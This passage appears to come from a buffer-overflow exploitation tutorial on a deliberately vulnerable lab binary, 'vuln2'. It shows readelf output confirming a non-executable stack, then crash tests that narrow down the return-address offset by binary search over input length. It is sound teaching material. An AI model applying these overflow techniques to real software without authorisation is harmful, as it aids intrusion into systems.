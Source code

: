 ```
vagrant@precise32:/vagrant$ readelf -l ./vuln2

Elf file type is EXEC (Executable file)
Entry point 0x8048360
There are 9 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
  INTERP         0x000154 0x08048154 0x08048154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x0061c 0x0061c R E 0x1000
  LOAD           0x000f14 0x08049f14 0x08049f14 0x00104 0x0010c RW  0x1000
  DYNAMIC        0x000f28 0x08049f28 0x08049f28 0x000c8 0x000c8 RW  0x4
  NOTE           0x000168 0x08048168 0x08048168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x000524 0x08048524 0x08048524 0x00034 0x00034 R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4
  GNU_RELRO      0x000f14 0x08049f14 0x08049f14 0x000ec 0x000ec R   0x1
```
As you can see from the output above our stack is no longer executable (the RW
on the GNU_STACK section)

# Finding the offset
Ok so now we need to find the point in our buffer at which we begin to overwrite
the return address. This is easy with a debugger and the use of patterns (as
seen in level1) but how would we do this without a debugger? The answer is a
binary search type algothrim which goes like this.
* Find input that crashes the program
* Reduce the size of the input
* If the program no longer crashes then choose a buffer length in the middle of
  the two numbers
* Rinse and repeat until you have reached a bugger length where adding 1 byte
  crashes the program

See this process in action below
```
vagrant@precise32:/vagrant$ ./vuln2 $(python -c 'print "A"*100')
��
Segmentation fault
```
Crashes to lets drop to 60
```
vagrant@precise32:/vagrant$  ./vuln2 $(python -c 'print "A"*60')
��
```
This no longer crashes so we'll try 80
```
vagrant@precise32:/vagrant$ ./vuln2 $(python -c 'print "A"*80')
��
Segmentation fault
```
Ok so 80 crashes so its somewhere between 60 and 80 so lets try 70
```
vagrant@precise32:/vagrant$  ./vuln2 $(python -c 'print "A"*70')
��
```
70 doesnt crash it so 75?
```
vagrant@precise32:/vagrant$ ./vuln2 $(python -c 'print "A"*75')
��
```
Nope 77 maybe??
```
vagrant@precise32:/vagrant$ ./vuln2 $(python -c 'print "A"*77')
```